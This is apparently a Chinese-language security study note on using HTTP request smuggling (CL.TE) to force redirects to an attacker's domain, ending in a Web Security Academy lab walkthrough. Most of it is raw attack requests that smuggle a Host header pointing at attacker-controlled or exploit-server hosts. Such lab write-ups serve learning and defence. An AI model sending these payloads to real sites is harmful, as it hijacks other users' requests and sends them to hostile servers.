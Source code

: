 # 请求走私触发重定向

### 将 Host 字段作为目标 url 场景

Web 应用程序在处理重定向时，都需要生成重定向响应包，用来告诉浏览器，让浏览器跳转到目标域。而许多后端服务器生成重定向响应包时，使用 Host 字段作为目标 url 的主机名。比如说 apache 和 IIS 服务器的默认行为：

```
# 当服务器接受到如下数据包时：
GET /home HTTP/1.1
Host: normal-website.com

# 服务器构造的重定向响应包如下：
HTTP/1.1 301 Moved Permanently
Location: https://normal-website.com/home/

# 这时响应包到达浏览器将自动重定向到 https://normal-website.com/home/
```

众所周知，HTTP 请求走私能篡改 normal 包的请求头和请求体，所以我们使用 HTTP 请求走私可以达到将 normal 包变成一个重定向请求包的结果。

1. 发送 attack 包。

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 54
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: X
```

2. 用户发送 normal 包被重定向攻击。

```
# 遭受攻击后的 normal 包。
GET /home HTTP/1.1
Host: attacker-website.com
Foo: XGET /scripts/include.js HTTP/1.1
Host: vulnerable-website.com

# 服务器处理遭受攻击后的 normal 包。
HTTP/1.1 301 Moved Permanently
Location: https://attacker-website.com/home/

# 注：有可能后端检测到两个 host 头会报错。
```

### 将相对根路径作为重定向场景

还有些时候后端服务器生成重定向目标 url，是服务器级别的，也就是说只能重定向到本域，如下：

```
# 后端服务器忽视 Host 头。
GET /example HTTP/1.1
Host: normal-website.com

# 后端服务器生成目标 url 是本域的 example 路径。
HTTP/1.1 301 Moved Permanently
Location: /example/
```

使用如下 HTTP 请求走私 payload，使其成为开放重定向（能重定向到其他域）：

```
# 后端服务器忽视 Host 头。
GET //attacker-website.com/example HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 301 Moved Permanently
Location: //attacker-website.com/example/
```

### 实验

实验环境存在 CL.TE 漏洞。

1. 多次尝试后发现请求根目录 / 时修改 host 头，不会出现重定向响应，都是正常访问根目录的响应。

```
POST / HTTP/1.1
Host: 0ad900150432f8e980990dd300eb00bc.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 162
Transfer-Encoding: chunked

0

GET / HTTP/1.1
Host: exploit-0a3400ad04a7f88680c70caf01fb00b6.exploit-server.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=1
```

![image-20250411162518307](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250411162518307.png)

2. 但是 /post/next?postId=3 页面会判断 host 头触发重定向。

```
POST / HTTP/1.1
Host: 0ad900150432f8e980990dd300eb00bc.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 180
Transfer-Encoding: chunked

0

GET /post/next?postId=3 HTTP/1.1
Host: exploit-0a3400ad04a7f88680c70caf01fb00b6.exploit-server.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=1
# 他将重定向到 https://exploit-0a3400ad04a7f88680c70caf01fb00b6.exploit-server.net/post?postId=4
```

![image-20250411162644696](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250411162644696.png)

3. 在攻击者网站也创建一个 post 页面用于接收重定向。

![image-20250411161840677](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250411161840677.png)

4. 发送一个 attack 包，网页访问 web-security-academy.net，成功重定向。

![image-20250411163036014](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250411163036014.png)
